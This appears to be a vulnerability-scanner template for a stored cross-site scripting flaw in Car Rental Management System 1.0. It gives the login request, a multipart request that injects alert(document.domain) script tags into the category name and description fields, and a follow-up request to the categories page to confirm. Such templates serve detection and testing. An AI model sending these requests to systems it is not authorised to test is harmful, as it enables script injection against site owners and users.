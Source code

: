 **Type - word**
- words
    1. \<script>alert(31337)\</script>
- part - body

**Type - word**
- words
    1. text/html
- part - header

---
# Car Rental Management System 1.0 - Cross-Site Scripting
## Description
- Car Rental Management System 1.0 contains a cross-site scripting vulnerability via admin/ajax.php?action=save_category in Name and Description parameter.

- severity - medium
- tags - xss,cms,authenticated,edb
## Requests
### Step - 1
```
POST /admin/ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}&password={{password}}

```
### Step - 2
```
POST /admin/ajax.php?action=save_category HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCMJ5bh3B6m9767Em

------WebKitFormBoundaryCMJ5bh3B6m9767Em
Content-Disposition: form-data; name="id"

------WebKitFormBoundaryCMJ5bh3B6m9767Em
Content-Disposition: form-data; name="name"

\</script>\<script>alert(document.domain)\</script>
------WebKitFormBoundaryCMJ5bh3B6m9767Em
Content-Disposition: form-data; name="description"

\<script>alert(document.domain)\</script>
------WebKitFormBoundaryCMJ5bh3B6m9767Em--

```
### Step - 3
```
GET /admin/index.php?page=categories HTTP/1.1
Host: {{Hostname}}

```
### Matchers

